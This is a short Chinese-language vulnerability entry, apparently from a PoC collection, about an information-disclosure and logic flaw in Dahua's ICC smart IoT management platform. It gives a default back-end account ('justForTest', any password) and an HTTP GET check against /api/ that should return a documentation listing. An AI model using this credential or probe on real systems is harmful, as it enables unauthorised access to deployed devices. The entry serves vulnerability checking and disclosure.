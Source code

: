 ﻿# 大华智能物联综合管理平台 ICC 信息泄露与逻辑漏洞

> 更新时间：2023-12-18

> 漏洞编号：

> 漏洞说明：默认用户即可登录后台(密码随意) justForTest/xxxxx

> 漏洞特征：

> 验证脚本：HTTP

```
GET /api/ HTTP/1.1
Cookie: name=value
```

> 响应代码特征：200

> 响应内容特征：文档目录

> 上传文件定位：

> 验证文件来源：大华智能物联综合管理平台 ICC 信息泄露与逻辑漏洞.poc
